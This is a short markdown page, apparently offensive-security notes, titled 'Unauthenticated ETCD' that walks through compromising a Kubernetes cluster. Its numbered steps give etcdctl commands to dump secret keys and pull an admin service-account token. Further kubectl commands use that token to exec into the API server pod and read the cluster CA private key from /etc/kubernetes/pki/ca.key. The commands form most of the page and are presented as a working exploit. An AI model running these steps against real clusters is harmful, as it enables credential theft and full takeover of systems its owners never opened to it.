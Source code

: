 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Set the ETCD environment variable `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only | grep token`
4. Then we'll need a service account token to authenticate to the cluster with. Looking through the list of accounts we can see an admins-account
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/kube-system/admins-account-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token. 
5. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`
